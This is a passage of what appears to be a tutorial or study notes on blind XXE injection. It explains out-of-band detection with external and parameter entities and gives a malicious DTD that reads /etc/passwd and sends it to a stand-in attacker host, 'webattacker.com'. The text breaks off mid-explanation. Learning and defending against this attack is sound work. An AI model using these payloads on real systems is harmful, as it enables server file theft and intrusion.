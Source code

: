 # BLIND XXE

- Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but doesn't return the values of any defined external entities within its responses.
- This means that direct retrieval of server-side files is not possible and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.
- There are 2 ways in which one can find  and exploit blind XXE vulnerabilities:
  1. Trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
  2. Trigger XML parsing errors in such a way that the error messages contain sensitive data.
  
## Detecting blind XXE using out-of-band(OAST) techniques.
- Detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control.
- Eg you would define an external entity as follows:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.webattacker.com"> ]>
```
You would then make use of the defined entity in a data value within the XML.
- This XXE attack causes the server to make a back-end HTTP request to the specified URL.
- The attacker can monitor for the resulting DNS lookup and HTTP request thereby detect that the XXE attack was successful.
- Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used, therefore, you might be able to use XML parameter entities instead.
- XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. Know the following:
1. The declaration of an XML parameter entity includes the percent character before the entity name:
```
<!ENTITY % myparameterentity "my parameter entity value" >
```
2. Parameter entities are referenced using the percent character instead of the usual ampersand:
```
%myparameterentity;
```
- This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.webattacker.com" > %xxe; ]>
```
- The XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD causing a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

### Exploiting blind XXE to exfiltrate data out-of-band
- Detecting a blind XXE vulnerability via out-of-band techniques is all very well but it doesn't actually demonstrate how the vulnerability could be exploited.
- What an attacker achieves is to exfiltrate sensitive data and can be done via a blind XXE vulnerability but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
- An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is :
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#X25; exfiltrate SYSTEM 'http://webattacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
- This DTD carries out the following steps:
  1. Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.